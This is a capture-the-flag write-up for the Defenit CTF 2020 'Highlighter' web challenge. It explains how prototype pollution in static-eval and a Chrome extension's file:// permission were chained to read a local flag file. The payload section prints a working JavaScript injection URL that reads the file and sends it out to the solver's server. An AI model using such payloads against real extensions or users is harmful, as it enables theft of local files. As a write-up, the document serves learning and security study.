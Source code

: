 # Highlighter
*Defenit CTF 2020 - Web 857*<br>
*Writeup by Payload as TryToEatSushi*


## Problem

Do you like the Chrome extension?
I made a tool to highlight a string through this.
Use it well! :)

## `static-eval` prototype pollution

After hard fighting with `background.js`, I noticed it has a function that acts as `eval`, but **safely**. With some google searches, we can find it's `static-eval` of node.

Also, we can find **very** interseting [blog post](https://blog.p6.is/bypassing-a-js-sandbox/) about prototype pollution in `static-eval`, written by p0six who is a publisher of this problem.

## `.split()`

With prototype pollution, we overwrote `String.split` which is called by `onMessage` after `static-eval`. At first, we succeed to make `alert(1)` in **chrome extension**, not in user content (It's important).

```
http://highlighter.ctf.defenit.kr/read?id=84#''['__proto__']['__defineGetter__']('split',function(){return/**/function(x){return/**/{[alert(1)]:1}};});
```

## `file://`

When we looked `manifest.json`, there are host permissions over all `http://*/*`, `https://*/*`, and `file://*/*`. These host permissions allows chrome extensions to make a request without cross origin restrictions. Thus, when we can evaluate javascript code in **Chrome extension**'s side, we can read local file.

## `file:///`

However, according to `docker-compose.yml`, we have to know where the flag is at first. Since chrome supports directory listing in file scheme, thus just making a request to `file:///` give an index page of the root directory, and we can know a name of folder.

## Exploitation

1. Pollute prototype using vulnerability of `static-eval`
2. Overwrite `.split()` function to fetch local file, and send it to our server
3. Read `file:///` first, then `file://{secret}/flag`.

## Payload

```
http://highlighter.ctf.defenit.kr/read?id=2#''['__proto__']['__defineGetter__']('split',function(){return/**/function(x){return/**/{[(function(){var/**/r=new/**/XMLHttpRequest();r.open('GET','file:///6339e914b333b35d902a2dfd2c415656/flag',false);r.send();r.responseText;fetch('http://{our server}/'+btoa(r.responseText));})()]:1,'zxcv':'1'}};})
```

**`Defenit{Ch20m3_3x73n510n_c4n_b3_m0re_Inte7e5t1ng}`**
